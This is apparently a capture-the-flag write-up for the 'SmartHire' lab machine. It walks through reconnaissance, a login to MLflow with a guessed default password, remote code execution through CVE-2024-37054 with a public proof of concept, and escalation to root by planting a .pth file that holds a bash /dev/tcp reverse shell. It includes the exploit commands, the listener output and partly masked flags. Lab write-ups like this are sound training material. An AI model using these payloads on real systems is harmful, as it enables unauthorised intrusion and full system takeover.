




SmartHire....  a publicly exposed Vhost led to the authentication page of the MLflow server.  Trying randomly guessed password with default username logged me in. The MLflow service version is vulnerable to **RCE** (CVE-2024-37054). Exploiting the vulnerability with publicly available PoC landed me on a user shell. The user **svcweb** is configured to run `mlflowctl.py` with a wildcard (`*`)  argument as root with `NOPASSWD`.  Abusing this  sudo rule elevated my privileges to root.

# Recon

## Port Scan

Nmap scan with `-sC` for default script scan `-sV` for service version `-oA` flag for output in all formats (.nmap, .gnmap, .xml) and finally `-v` to print the open ports as the scan discovers which exposes ports `22`,`80`.

```shell wrap=false collapse={10-40}
0xz1nn ✦ ~/Documents/htb/smarthire
❯ nmap -sC -sV -Pn -oA nmap $target -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-21 11:44 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:44
Completed NSE at 11:44, 0.00s elapsed
Initiating NSE at 11:44
Completed NSE at 11:44, 0.00s elapsed
Initiating NSE at 11:44
Completed NSE at 11:44, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:44
Completed Parallel DNS resolution of 1 host. at 11:44, 0.50s elapsed
Initiating SYN Stealth Scan at 11:44
Scanning 10.129.48.210 [1000 ports]
Discovered open port 22/tcp on 10.129.48.210
Increasing send delay for 10.129.48.210 from 0 to 5 due to 11 out of 21 dropped probes since last increase.
Discovered open port 22/tcp on 10.129.48.210
Discovered open port 80/tcp on 10.129.48.210
Increasing send delay for 10.129.48.210 from 5 to 10 due to 11 out of 34 dropped probes since last increase.
Increasing send delay for 10.129.48.210 from 10 to 20 due to max_successful_tryno increase to 4
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 11:45 (0:00:00 remaining)
Completed SYN Stealth Scan at 11:45, 56.56s elapsed (1000 total ports)
Initiating Service scan at 11:45
Scanning 2 services on 10.129.48.210
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:45 (0:00:01 remaining)
Completed Service scan at 11:45, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.48.210.
Initiating NSE at 11:45
Completed NSE at 11:45, 17.44s elapsed
Initiating NSE at 11:45
Completed NSE at 11:45, 0.59s elapsed
Initiating NSE at 11:45
Completed NSE at 11:45, 0.00s elapsed
Nmap scan report for 10.129.48.210
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
|_  256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://smarthire.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:45
Completed NSE at 11:45, 0.00s elapsed
Initiating NSE at 11:45
Completed NSE at 11:45, 0.00s elapsed
Initiating NSE at 11:45
Completed NSE at 11:45, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.70 seconds
           Raw packets sent: 1193 (52.492KB) | Rcvd: 1140 (45.856KB)

```

## smarthire.htb - Port 80

There is a website on port 80. I registered an account to check the functionality (Try intercepting the requests using BurpSuite).


The website basically trains a model and make predictions based on the data file (.`csv`) uploaded.


## Directory Fuzz

The result didn't expose other than the directories which are accessible on the webpage.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire
❯ feroxbuster -u http://smarthire.htb

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://smarthire.htb/
 🚩  In-Scope Url          │ smarthire.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      131l      434w     6499c http://smarthire.htb/register
302      GET        5l       22w      199c http://smarthire.htb/logout => http://smarthire.htb/login
200      GET      127l      406w     6160c http://smarthire.htb/login
200      GET      187l     1144w    86196c http://smarthire.htb/static/images/unsplash_analytics.jpeg
200      GET      314l     1901w   141610c http://smarthire.htb/static/images/unsplash_team.jpeg
200      GET       93l      540w    36701c http://smarthire.htb/static/images/unsplash_robohuman.jpeg
200      GET      215l      875w    11255c http://smarthire.htb/
302      GET        5l       22w      199c http://smarthire.htb/dashboard => http://smarthire.htb/login
200      GET       27l     4087w   407279c http://smarthire.htb/static/js/tailwind.js
302      GET        5l       22w      199c http://smarthire.htb/predict => http://smarthire.htb/login
[####################] - 2m     30009/30009   0s      found:10      errors:0
[####################] - 2m     30000/30000   276/s   http://smarthire.htb/                                                     
```

## Vhost Discovery

Fuzzing with `ffuf` exposed  **models** vhost.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire
❯ ffuf -u http://$target -H "Host: FUZZ.smarthire.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all  -fc 302,301


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.48.210
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.smarthire.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 302,301
________________________________________________

models                  [Status: 401, Size: 137, Words: 11, Lines: 1, Duration: 152ms]
#www                    [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 399ms]
#mail                   [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 90ms]
:: Progress: [19966/19966] :: Job [1/1] :: 492 req/sec :: Duration: [0:01:27] :: Errors: 0 ::
```

write it (models.smarthire.htb) into the `/etc/hosts` and accessing it on browser asked for authentication.

## models.smarthire.htb - vhost

### MLflow


clicked **sign in**.



By seeing the information on that page, we can say that we are interacting with **MLflow**. I found the default username as **admin** by googling, trying it with **password** (random initial trials) logged me in.



(did your eyes parse the service version?)

```
MLflow 2.14.1
```

 (Go ahead and search for the publicly disclosed vulnerabilities).

# Shell as svcweb

## CVE-2024-37054 - RCE

I cloned this [PoC](https://github.com/spydomain/cve-2024-37054-mlflow-reverse-shell) repository, follow the below steps to exploit the vulnerability.

### `generate_model.py`

Modify `LHOST` and `LPORT` parameter to your machine  IP and port you'd like to listen.

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire/cve-2024-37054-mlflow-reverse-shell
❯ python3 generate_model.py
[+] model.pkl created

```

### `sample.csv`

Upload a sample .csv file at `http://smarthire.htb` to train the model  and modify the model name in the `upload_model.py` with the newly generated model name on the website.

### `upload_model.py`

Change the parameter to look like this

```python
USERNAME = "admin"
PASSWORD = "password"
MLFLOW = "http://models.smarthire.htb" # Change the url to models url
MODEL_NAME = "<your model name>" #Change active model name from main domain shown after uploading csv file
```

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire/cve-2024-37054-mlflow-reverse-shell
❯ python3 upload_model.py
[DEBUG] Experiment: 200 - {
  "experiment_id": "473195169389058166"
}
[+] Experiment ID: 473195169389058166
[+] Run ID: 6808b59123ec42c5bd79866039aad08d
[+] Pickle upload: 200
[+] MLmodel upload: 200
[DEBUG] Register: 400 - {"error_code": "RESOURCE_ALREADY_EXISTS", "message": "Registered Model (name=HTB-2cbc7b000b1d-model) already exists."}
[DEBUG] Version: 200 - {
  "model_version": {
    "name": "HTB-2cbc7b000b1d-model",
    "version": "5",
    "creation_timestamp": 1790010430093,
    "last_updated_timestamp": 1790010430093,
    "current_stage": "None",
    "description": "",
    "source": "runs:/6808b59123ec42c5bd79866039aad08d/model",
    "run_id": "6808b59123ec42c5bd79866039aad08d",
    "status": "READY",
    "run_link": ""
  }
}
[+] New version: 5
[+] Stage transition: 200
[+] Done! Waiting for shell on trigger...

```

### Trigger Payload → Shell

At this stage the payload is uploaded to the target.

- Setup the listener.
- Jump into the BurpSuite, copy the **session cookie**  in the requests to `smarthire.htb`.
- Trigger the payload

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire/cve-2024-37054-mlflow-reverse-shell
❯ curl -X POST http://smarthire.htb/predict   -H "Cookie: session=eyJjb21wYW55IjoiSFRCIiwidXNlcl9pZCI6IjJjYmM3YjAwMGIxZCIsInVzZXJuYW1lIjoiMHh6MW5uIn0.arFSDQ.k1EwE9cFoYcCS22GUfSjnkrEkJc"  -F "file=@sample.csv"
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

## svcweb

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire
❯ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.15.183] from (UNKNOWN) [10.129.48.210] 49182
id
uid=1000(svcweb) gid=1000(svcweb) groups=1000(svcweb),1001(mlflowweb),1002(devs)
python3 -c 'import pty;pty.spawn("/bin/bash")'
svcweb@smarthire:/var/www/smarthire.htb$
```

successfully found the user flag.

```shell

svcweb@smarthire:~$ cat user.txt
cat user.txt
f8f8****8797****7087****591a****
```

# Shell as Root

## Sudo Permissions

Enumerating for sudo permissions as **svcweb** , found a sudo rule with `NOPASSWD` i.e I can execute command as **svcweb** with root privileges.

```shell wrap=false
svcweb@smarthire:/$ sudo -l
sudo -l
Matching Defaults entries for svcweb on smarthire:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

## `mlflowctl.py`

I analyzed the source code of `mlflowctl.py` and found that it calls `site.addsitedir()` on every subdirectory of a **user-writable** `plugins/` folder.

```python
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))
```

 Because `.pth` files inside those directories are executed on Python startup, we can place a reverse shell code into the `.pth` which is executed with root privileges and give us a shell as root.

```shell wrap=false
svcweb@smarthire:/$ cat /opt/tools/mlflow_ctl/mlflowctl.py
cat /opt/tools/mlflow_ctl/mlflowctl.py
#!/usr/bin/env python3
"""
MLFLOW-CTL: Operational interface for managing the MLflow service.
Supports a pluggable extension model for environment-specific logic.
For changes or plugin requests, please contact the Platform Team.
"""

from pathlib import Path
import sys
import site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

# make plugins importable
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))

def print_usage():
    print("Usage: mlflowctl.py [status|backup-models|restart]")
    sys.exit(1)

def main():
    import mlflow_actions, backup_models

    if len(sys.argv) < 2:
        print_usage()

    action = sys.argv[1]

    if action == "status":
        mlflow_actions.check_status()
    elif action == "backup-models":
        print("[*] Running backup via backup_models plugin...")
        backup_models.run()
    elif action == "restart":
        mlflow_actions.restart()
    else:
        print(f"[!] Unknown action: {action}")
        print_usage()

if __name__ == "__main__": main()

```

## Exploitation

- Create a malicious `.pth` file in `plugins/dev` directory.

```shell wrap=false
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins$ cd dev
cd dev
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ ls
ls
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ echo 'import os; os.system("bash -c \"bash -i >& /dev/tcp/10.10.15.183/9001 0>&1\"")' > 0xz1nn.pth
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ ls
ls
0xz1nn.pth
```

- Setup  listener and execute the script as defined in the sudo permission rule.

```shell wrap=false
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py backup-models
<10 /opt/tools/mlflow_ctl/mlflowctl.py backup-models
```

## Root

```shell wrap=false
0xz1nn ✦ ~/Documents/htb/smarthire
❯ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.15.183] from (UNKNOWN) [10.129.48.210] 52712
root@smarthire:/opt/tools/mlflow_ctl/plugins/dev# cd /root
cd /root
root@smarthire:~# ls
ls
root.txt
scripts
root@smarthire:~# cat root.txt
cat root.txt
9b43****5212****6811****3eb5****
root@smarthire:~#
```
